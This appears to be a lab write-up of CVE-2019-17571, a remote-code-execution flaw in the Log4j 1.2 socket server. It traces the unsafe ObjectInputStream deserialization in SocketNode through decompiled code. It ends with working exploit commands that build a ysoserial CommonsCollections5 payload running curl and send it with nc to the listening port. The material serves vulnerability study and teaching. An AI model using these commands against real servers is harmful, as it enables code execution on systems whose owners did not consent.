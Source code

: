 # CVE-2019-17571

## Setup

* JankenTestLogServer.jar - Apache Log4j 1.2.X server ( [JankenTestLogServer.jar](/website/assets/files/JankenTestLogServer.jar) )
* [java jdk1.7.0_80](https://files-cdn.liferay.com/mirrors/download.oracle.com/otn-pub/java/jdk/7u80-b15/jdk-7u80-linux-x64.tar.gz)
* [jadx: Java decompiler](https://github.com/skylot/jadx) 
* config.properties - config file with following content
```
log4j.rootLogger=DEBUG, consoleAppender, fileAppender

log4j.appender.consoleAppender=org.apache.log4j.ConsoleAppender
log4j.appender.consoleAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.consoleAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n

log4j.appender.fileAppender=org.apache.log4j.RollingFileAppender
log4j.appender.fileAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.fileAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n
log4j.appender.fileAppender.File=demoApplication.log
```


> Running the log4j server. We run it on port `5111` (first argument) with `config.properties` as config file(2nd argument)
```bash

$ java -jar JankenTestLogServer.jar 5111 config.properties # this will run a server on port 5111 listening for socket connection
```

## Finding the bug

Open `JankenTestLogServer.jar` with `jadx` to view the source code. 

[cve-2019-17571-1](/website/assets/images/cve-2019-17571-1.png)

```java
try {
    logger.info("Listening on port " + port);
    ServerSocket serverSocket = new ServerSocket(port);
    while (true) {
        logger.info("Waiting to accept a new client.");
        Socket socket = serverSocket.accept();
        logger.info("Connected to client at " + socket.getInetAddress());
        logger.info("Starting new socket node.");
        new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

The code starts Listening on port provided(5111 in our case) and whenever there is a new connection a new Thread is spawn to fulfil the socket request. The following code is responsible for that:

```java

new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();

```

So lets inspect `SocketNode` function. Its imported from `import org.apache.log4j.net.SocketNode;`. Lets open `SocketNode.java`


[cve-2019-17571-2](/website/assets/images/cve-2019-17571-2.png)

```java

 public SocketNode(Socket socket2, LoggerRepository hierarchy2) {
    this.socket = socket2;
    this.hierarchy = hierarchy2;
    try {
        this.ois = new ObjectInputStream(new BufferedInputStream(socket2.getInputStream()));
    } catch (InterruptedIOException e) {
        Thread.currentThread().interrupt();
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e);
    } catch (IOException e2) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e2);
    } catch (RuntimeException e3) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e3);
    }
}	
```

So the Input from socket stream is read directly into `ObjectInputStream` and this is where Deserialization occurs. So we just need to send a serialized rce object and this will get us rce.


## Exploit

```
$ tar -xf jdk-7u80-linux-x64.tar.gz
$ ./jdk-7u80-linux-x64/bin/java -jar ysoserial.jar CommonsCollections5 "curl http://localhost:1111/" > haxtest.bin
$ cat haxtest.bin | nc localhost 5111
```

[cve-2019-17571-rce](/website/assets/images/cve-2019-17571-rce.png)


Enjoy the rce



